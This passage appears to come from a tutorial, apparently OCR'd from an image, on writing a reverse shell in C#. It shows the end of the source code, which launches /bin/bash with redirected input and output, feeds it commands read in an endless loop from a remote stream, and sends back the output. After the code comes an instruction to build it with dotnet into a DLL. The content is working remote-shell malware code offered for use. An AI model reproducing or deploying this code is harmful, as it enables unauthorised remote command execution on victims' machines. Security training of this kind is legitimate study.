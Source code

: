 ```c#
                        StringBuilder strInput = new StringBuilder();

                        Process p = new Process();
                        p.StartInfo.FileName = "/bin/bash";
                        p.StartInfo.CreateNoWindow = true;
                        p.StartInfo.UseShellExecute = false;
                        p.StartInfo.RedirectStandardOutput = true;
                        p.StartInfo.RedirectStandardInput = true;
                        p.StartInfo.RedirectStandardError = true;
                        p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);
                        p.Start();
                        p.BeginOutputReadLine();

                        while(true)
                        {
                            strInput.Append(rdr.ReadLine());
                            //strInput.Append("\n");
                            p.StandardInput.WriteLine(strInput);
                            strInput.Remove(0, strInput.Length);
                        }
                    }
                }
            }
        }

        private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
        {
            StringBuilder strOutput = new StringBuilder();

            if (!String.IsNullOrEmpty(outLine.Data))
            {
                try
                {
                    strOutput.Append(outLine.Data);
                    streamWriter.WriteLine(strOutput);
                    streamWriter.Flush();
                }
                catch (Exception err) { }
            }
        }

    }
}
```

### Generation

We can then use Dotnet to build the shell. Once the build is completed it will give you a path to the DLL. This we need to remember!
